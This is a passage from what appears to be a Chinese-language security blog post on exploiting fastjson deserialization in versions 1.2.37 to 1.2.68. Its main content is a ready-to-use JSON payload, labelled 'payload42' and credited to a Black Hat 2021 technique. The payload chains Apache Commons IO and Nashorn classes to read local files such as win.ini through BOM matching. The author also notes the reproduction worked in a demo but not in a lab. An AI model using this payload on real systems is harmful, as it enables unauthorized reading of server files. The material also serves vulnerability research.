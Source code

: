 我这里`demo`复现是成功的，但是靶场没有成功，如果有兄弟成功了可以公众号后台直接发消息，我看到立马就会回复，并将这部分在我的博客中更新。

## 4.2 fastjson [1.2.37<=version<=1.2.68]

### 4.2.1 blackhat2021-getBom() 原版（适用场景有限）

`payload42`：

```plain
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///C:/Windows/win.ini"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          59
        ]
      }
    ]
  },
  "address" : {"$ref":"$.abc.BOM"}
}
```

[![](assets/1706254407-fdbcf09e4313d1e935e28403a19fa1e6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021003605584.png)
